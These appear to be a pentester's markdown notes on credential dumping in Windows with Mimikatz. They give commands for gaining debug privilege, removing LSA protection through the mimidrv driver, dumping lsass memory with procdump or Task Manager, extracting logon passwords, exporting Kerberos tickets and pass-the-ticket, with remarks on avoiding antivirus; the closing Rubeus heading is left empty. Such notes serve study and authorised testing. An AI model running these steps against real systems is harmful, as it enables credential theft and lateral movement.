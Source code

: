 ## Mimikatz and Rubeus


### Mimikatz

Lsass stores the Hashes because of the cached Kerberos tickets.
To dump the hashes we need elevated command prompt - either the Admin elevated or the NT Authority\System - it is because we need the SeDebugPrivilege to read and modify the process; lsass.exe is owned 

```cmd
mimikatz.exe
privilege::debug
```

In case where the LSA Protection is enabled we need the ability to execute the code in Windows Kernel. LSA Protection is there because of the Protected Processes Light (PPL), which is layered on top of the integrity level checks - event the System integrity process cannot modify or access the memory space of the System integrity process executing with the PPL. We can check the PPL inside the Registry in the DWORD RunAsPPL DWORD 1.

```cmd
reg query HKLM\System\CurrentControlSet\Control\Lsa
```

It is disabled by default. When that enable we need to execute the kernel driver to disable LSA protection. In mimikatz shell:

```cmd
!+
!processprotect /process:lsass.exe /remove
sekurlsa::logonpasswords
```

mimidrv.sys must be in the same directory and we need SeLoadDriverPrivilege privileges. The mimidrv.sys may trigger AV, however to dump the lsass when the PPL is enabled we need to transport it. But we do not need Mimikatz to run it, we can do this as a Windows service.

We can do the memory dump with either the Task Manager (GUI only) or with the ProcDump from SysInternals, but this may also be detected by AV. 

With the TaskManager you right click on the bottom bar, open the task manager, then go to details, find lsass.exe process, right click and do the Memory Dump. In mimikatz you can load the dump by:
```cmd
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

Check Credentials Guard psh:
```powershell
$DevGuard = Get-CimInstance –ClassName Win32_DeviceGuard –Namespace root\Microsoft\Windows\DeviceGuard
if ($DevGuard.SecurityServicesConfigured -contains 1) {"Credential Guard configured"}
if ($DevGuard.SecurityServicesRunning -contains 1) {"Credential Guard running"}
```

with procdump from sysinternals you can dump lsass:
```cmd
procdump -ma lsass.exe lsass.dmp
```

List the tickets:
```cmd
sekurlsa::tickets
```

Export tickets:
```cmd
sekurlsa::tickets /export
```

Pass-the-Ticket with exported TGT: ^1a750f
```cmd
kerberos::ptt <kirbi_file>
```


You can use the Minidump from code folder.

### Rubeus

